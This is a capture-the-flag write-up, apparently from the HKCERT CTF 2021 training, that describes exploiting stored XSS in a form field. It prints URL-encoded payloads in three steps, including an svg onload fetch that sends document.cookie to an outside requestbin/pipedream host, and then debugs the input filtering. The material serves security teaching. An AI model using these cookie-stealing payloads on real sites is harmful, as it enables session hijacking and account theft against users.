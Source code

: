 Going back to the payload, special thanks to the training blog offered by [hkcertCTF2021](https://training.hkcert21.pwnable.hk/) we can make use of [requestbin]( https://requestbin.com/) to host a site to capture a cookie that we are attempting to steal.

How do we craft a stored XSS payload in an attempt to steal one’s cookie? During the challenge, I have come across a number of good posts/blogs that are of a good read.:
-	https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting
-	https://brutelogic.com.br/blog/xss101/

In this challenge, not only we have to be aware of the input filtering in place, which leads us to a certain level of URL encoding, we have to keep on trial and error to see if we can capture the document.cookie from the victim clients who visited this page of the application injected with stored XSS

**Step 1 - Proving XSS exist**

Initially, I tested the Record List with the encoded XSS payload to prove that I can capture a document.cookie

```
Upgrade-Insecure-Requests: 1

hrs=1&reason=%22%3e%3csvg%2fonload%3dalert%28document.cookie%29%3e
```
 ![image](https://user-images.githubusercontent.com/94167587/144216199-8b26bd47-b2f8-44e6-8ed4-2fbf29b7abeb.png)


**Step 2 – Proving XSS can send to our requestbin server**

`Onload=fetch()` is a good payload to perform such action

```
Upgrade-Insecure-Requests: 1

hrs=1&reason= %22%3e%3csvg%2fonload%3dfetch%60https%3a%2f%2fen8bq7uoc2g7wz3%2em%2epipedream%2enet%2f%3f%60%2bdocument.cookie%29%3e

```
 
![image](https://user-images.githubusercontent.com/94167587/144216221-7ca07c83-4bb9-4748-8cd9-2e44460bb6c0.png)

**Step 3 – Combining the both**

`<svg onload=fetch( ' //HOST/?cookie= ' +document.cookie)` is supposed to be a good payload. However, upon further trial and error, I realize a space or %20 is something this server does not like (input filtering). Worse, even if it succeeds sending to our requestbin server, document.cookie is not captured ☹ 
 
![image](https://user-images.githubusercontent.com/94167587/144216262-004691bb-fc7e-46d9-9752-1a9babe0d7a9.png)
![image](https://user-images.githubusercontent.com/94167587/144216310-119c2722-b257-450b-a0b8-3be74feb75a1.png)


What’s going on? I found this [article]( https://auth0.com/blog/cross-site-scripting-xss/) after and attempted amending my payload into /?data={document.cookie}
     ![image](https://user-images.githubusercontent.com/94167587/144216334-69c31051-3e26-4b73-806c-7847b3535cdf.png)
